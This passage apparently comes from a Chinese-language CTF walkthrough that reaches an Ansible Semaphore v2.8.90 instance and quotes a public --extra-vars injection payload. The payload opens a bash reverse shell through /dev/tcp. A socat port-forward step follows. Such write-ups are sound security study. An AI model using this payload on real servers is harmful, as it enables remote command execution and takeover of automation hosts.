 ```bash
╭─pedro@crossbow ~ 
╰─$ semaphore
Ansible Semaphore is a beautiful web UI for Ansible.
Source code is available at https://github.com/ansible-semaphore/semaphore.
Complete documentation is available at https://ansible-semaphore.com.
Usage:
  semaphore [flags]
  semaphore [command]
Available Commands:
  completion  generate the autocompletion script for the specified shell
  help        Help about any command
  migrate     Execute migrations
  server      Run in server mode
  setup       Perform interactive setup
  upgrade     Upgrade to latest stable version
  user        Manage users
  version     Print the version of Semaphore
Flags:
      --config string   Configuration file path
  -h, --help            help for semaphore
Use "semaphore [command] --help" for more information about a command.
```

看一下版本：

```bash
╭─pedro@crossbow ~ 
╰─$ semaphore version
v2.8.90
```

google一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205692.png" alt="image-20240403214948753" style="zoom:50%;" />

找到[攻击方式](https://gist.github.com/Alevsk/1757da24c5fb8db735d392fd4146ca3a)：

```bash
[Attack Vectors]

The --extra-vars parameter can be abused by a malicious user with low privileges to achieve Remote Command Execution (RCE) and read files and configurations, perform Server Side Request Forgery (SSRF), execute commands, and establish a reverse shell on the ansible server. Payload:

{"ansible_user": "{{ lookup('ansible.builtin.pipe', \"bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1337 <&1'\") }}"}
```

进行一下端口转发，否则我们看不到那个UI：

```bash
socat TCP-LISTEN:3001,fork TCP:127.0.0.1:3000 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205693.png" alt="image-20240403215410377" style="zoom:50%;" />
